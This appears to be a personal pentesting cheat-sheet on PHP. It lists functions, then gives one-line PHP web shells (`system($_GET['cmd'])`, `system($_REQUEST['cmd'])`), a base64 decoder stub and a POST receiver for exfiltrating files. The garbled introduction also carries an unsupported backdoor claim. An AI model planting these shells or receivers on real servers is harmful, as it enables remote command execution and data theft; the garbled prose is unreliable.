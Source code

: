 # Useful_PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful php with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context anduser context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

PHP 8.1 - Dev has a Backdoor


PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

## Useful Functions listing

Regex
[preg_match](https://www.php.net/manual/en/function.preg-match.php) - Perform a regular expression match

[is_resource](https://www.php.net/manual/en/function.is-resource.php) - Finds whether a variable is a resource

Arrays
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array

Strings 
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string

Files
[finfo_open](https://www.php.net/manual/en/function.finfo-open.php) - Create a new finfo instance
[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php) - Moves an uploaded file to a new location
[file_put_contents](https://www.php.net/manual/en/function.file-put-contents.php)

Execution:
[passthru](https://www.php.net/manual/en/function.passthru.php) - The _passthru_() function is similar to the exec() function in that it executes a command . This function should be used in place of exec() or system() he output from the Unix command is binary data which needs to be passed directly back to the browser. 

## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions

[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
